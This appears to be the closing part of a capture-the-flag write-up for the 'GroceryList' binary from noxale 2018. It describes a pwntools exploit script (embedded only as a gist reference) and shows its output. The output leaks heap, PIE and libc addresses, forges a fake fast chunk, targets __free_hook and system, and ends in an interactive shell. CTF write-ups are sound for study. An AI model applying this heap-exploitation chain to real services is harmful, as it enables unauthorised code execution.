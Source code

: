 
The following python code connect to server, interact with it to chain a serie of events that will spawn a shell at the end. I'm using [Pwntools](https://github.com/Gallopsled/pwntools) to do this, since it makes network programming much more easy and funny.



{{< gist segflow a7142d7e3b866c3577ab8a08ea0c3b9c >}}


```shell
> $ python exploit.py
[*] '/MacOsHome/Desktop/CTFs/noxale-2018/grocery_list/GroceryList'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './GroceryList': pid 4407
[!] ASLR is disabled!
[4407]
[*] Heap leak : 0x2aaaab097c48
[*] PIE Base  : 0x555555554000
[*] LIBC base : 0x2aaaaacd3000
[*] items bss : 0x555555756040
[*] Fake Fast chunk: 0x55555575602d
[*] puts    : 0x2aaaaad42690
[*] getchar : 0x2aaaaad49160
[*] system : 0x2aaaaad18390
[*] __free_hook : 0x2aaaab0997a8
[*] Switching to interactive mode
Which item would you like to remove?
$ uname -a
Linux pwnbox 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```